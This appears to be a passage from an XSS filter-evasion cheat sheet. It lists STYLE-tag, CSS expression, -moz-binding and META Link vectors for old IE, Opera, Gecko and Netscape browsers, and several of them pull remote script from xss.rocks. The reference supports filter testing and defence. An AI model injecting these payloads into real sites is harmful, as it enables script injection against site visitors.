 ```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

```html
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
```

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```

## STYLE Tags with Broken-up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

## STYLE Attribute using a Comment to Break-up Expression

Created by Roman Ivanov

```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

## IMG STYLE with Expression

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

```html
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

## STYLE Tag (Older versions of Netscape only)

```html
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
```
